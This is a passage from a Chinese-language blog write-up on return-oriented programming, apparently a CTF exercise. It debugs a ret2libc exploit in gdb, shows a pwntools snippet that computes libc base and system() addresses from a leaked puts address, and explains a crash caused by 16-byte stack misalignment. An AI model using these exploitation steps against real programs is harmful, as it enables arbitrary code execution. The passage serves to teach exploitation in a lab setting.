 接個gdb看一下

{% include aligner.html images="posts/2021-08-17-return-oriented-programming/where-are-you-going.png" column=1 %}

~~大哥你要跳去哪裡啊~~

在程式還沒有crash前看一下memory map

{% include aligner.html images="posts/2021-08-17-return-oriented-programming/local-libc.png" column=1 %}

local的libc？

不同版本libc的offset不一樣，換個地址再戰
```py
# Address calculation
puts_runtime = u64(res + b'\x00' * (8-len(res)) )
log.info(f'[1] puts_runtime = {hex(puts_runtime)}')
# libc_base = puts_runtime - 0x80a30 # REMOTE
libc_base = puts_runtime - 0x875a0 # LOCAL
log.info(f'[2] libc_base = {hex(libc_base)}')
# system_runtime = libc_base + 0x4f4e0 #REMOTE
system_runtime = libc_base + 0x55410 # LOCAL
log.info(f'[3] system_runtime = {hex(system_runtime)}')
```

{% include aligner.html images="posts/2021-08-17-return-oriented-programming/into-system.png" column=1 %}

這次跳對地方了，不過

{% include aligner.html images="posts/2021-08-17-return-oriented-programming/do_system-segv.png" column=1 %}

還是壞的

到處Google之後突然發現這個東西

{% include aligner.html images="posts/2021-08-17-return-oriented-programming/google-system-alignment.png" column=1 %}

對齊問題？換個關鍵字之後才知道問題出在哪裡
> *The x86-64 System V ABI guarantees 16-byte stack alignment before a call, so libc system is allowed to take advantage of that for 16-byte aligned loads/stores. If you break the ABI, it's your problem if things crash.*
> 
> *`%rsp` The stack pointer holds the address of the byte with lowest address which is part of the stack. It is guaranteed to be 16-byte aligned at process entry.*
> 
> 也就是在進行function call的時候，stack必須以16 bytes對齊，也就是`%rsp`必須為以`0`為結尾。任何的`pop`都是以8 bytes為單位移動，雖然大多數情況下都會自動調整，不過在亂搞的情況下還是有機會把地址弄壞

這邊的情況是
```
$rsp   : 0x00007ffe611337a8  →  0x2f2f2f2f2f2f2f2f ("////////"?)
```
結尾為8，也就是沒有對齊
